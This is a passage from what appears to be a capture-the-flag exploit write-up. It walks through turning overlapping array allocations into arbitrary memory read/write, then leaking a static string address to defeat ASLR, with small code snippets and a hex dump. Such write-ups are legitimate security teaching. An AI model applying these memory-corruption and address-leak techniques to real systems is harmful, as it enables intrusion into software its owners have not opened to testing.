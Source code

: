 And therefore, when array2 thought it was reading from its own buffer, it was actually reading from the wrong location - 0xB7FFEC04.

(If we use the edit() function on array2, we can write to that memory as well.)

The summary is, we can read and write arbitrary memory, by allocating two arrays, using the first to modify the second's metadata, then reading or writing the second's data.

Still with me? I hope so!

<h3>Bypassing ASLR</h3>

For those of you who don't know what ASLR is, I recommend reading <a href='https://en.wikipedia.org/wiki/Address_space_layout_randomization'>the Wikipedia page</a>. The summary is, it means that modules and stack don't load to the same address twice. So, even though I have an arbitrary read/write memory attack, I don't know where memory <em>is</em>, in theory.

So how do we find it?

The first thing to realize is that the size of the binary in memory doesn't change, and the parts within the binary don't get re-arranged, so if we can determine where <em>anything</em> in the binary gets loaded, we can use clever math to figure out where <em>everything</em> gets loaded. We just have to leak a single address.

How do we leak a single address? It turns out, with the read-memory attack we just saw, this is rather easy. We allocate a double array, as usual, which will get overwritten by the next allocation:

<pre>
<span class="lnr">1 </span>store(s, <span class="Type">VARDATA_TYPE_DOUBLE_ARRAY</span>, [<span class="Constant">0x4141414141414141</span>] * <span class="Constant">10</span>)
</pre>

Then we allocate a static string, which will overwrite the latter part of the double array:

<pre>
<span class="lnr">1 </span>store(s, <span class="Type">VARDATA_TYPE_STRING</span>, <span class="Constant">0</span>)
</pre>

As I've mentioned before, the strings are indexes into a hardcoded list of strings. Therefore, the address of a static string in the binary will be saved in the message-specific data.

Now, if we print out the double array:

<pre>
<span class="lnr">1 </span><span class="Type">Hex</span>.print(get(s, <span class="Constant">1</span>))
</pre>

We get the address of the first such string:

<pre>
<span class="lnr">1 </span><span class="Constant">0000</span>  <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">19</span> <span class="Constant">04</span> <span class="Constant">00</span> <span class="Constant">00</span>   <span class="Type">AAAAAAAAAAAA</span>....
<span class="lnr">2 </span><span class="Constant">0010</span>  <span class="Constant">01</span> <span class="Constant">00</span> <span class="Constant">00</span> <span class="Constant">00</span> <span class="Constant">16</span> <span class="Constant">00</span> <span class="Constant">00</span> <span class="Constant">00</span> <span class="Type">B0</span> <span class="Type">EB</span> <span class="Type">FF</span> <span class="Type">B7</span> <span class="Constant">00</span> <span class="Constant">00</span> <span class="Constant">00</span> <span class="Constant">00</span>   ................
<span class="lnr">3 </span>...
</pre>
